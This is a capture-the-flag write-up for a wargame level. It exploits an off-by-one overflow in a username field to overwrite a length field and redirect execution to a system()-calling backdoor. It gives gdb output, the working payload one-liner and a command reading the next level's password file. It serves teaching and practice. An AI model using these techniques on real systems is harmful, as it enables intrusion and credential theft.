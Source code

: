 # Level 09

## the goal

We have an executable asking for a name and a message who will be sent we don't know where (to hell???).

```sh
$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: 42
>: Welcome, 42
>: Msg @Unix-Dude
>>: reef > free
>: Msg sent!
```

By reading the source code, we can see a very useful function: secret_backdoor() which calls the system function by passing it the standart input as an argument.

```c
int secret_backdoor()
{
  char s[128];

  fgets(s, 128, stdin);
  return system(s);
}

```

The secret_backdoor address can be find as follow:

```sh
(gdb) r <<< $(python -c 'print("A" * 40 + "\xca")')
Starting program: /home/users/level09/level09 <<< $(python -c 'print("A" * 40 + "\xca" * 146)')
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
Program received signal SIGSEGV, Segmentation fault.
0x0000555555550000 in ?? ()
(gdb) disass secret_backdoor
Dump of assembler code for function secret_backdoor:
	0x000055555555488c <+0>:	push   %rbp
	...
```

The address of our function is 0x000055555555488c.
We also see that the program crashes at the address 0x0000555555550000.
There's only a 2-byte difference between the two, so we can replace just that!

Now, we have to have to find a way to call this function.

Looking a little deeper into the source code, we see that the message and its length are located in a structure.

If we want to create an overflow, the length of the message must exceed the length of the array (140 char). Hopefully, there's a way to overflow memory in the set_username() function.
A loop at the end of the function is suppoded to store the first 40 characters retrieved by fgets() in the "name" part of the structure, which is an array of 40 char. But, what a pity, the condition is badly done! It says "i <= 40" instead of "i < 40", so the function will store one extra byte in the structure, overridding one byte of the length parameter.

We can then provoke our first segfault, and use this to inject the call to our backdoor:

```sh
$ (python -c 'print("A" * 40 + "\xca")') | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
Segmentation fault (core dumped)
```

### the hack

```sh
$ (python -c 'print("A" * 40 + "\xca" + "\x8c\x48" * 146)'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
```
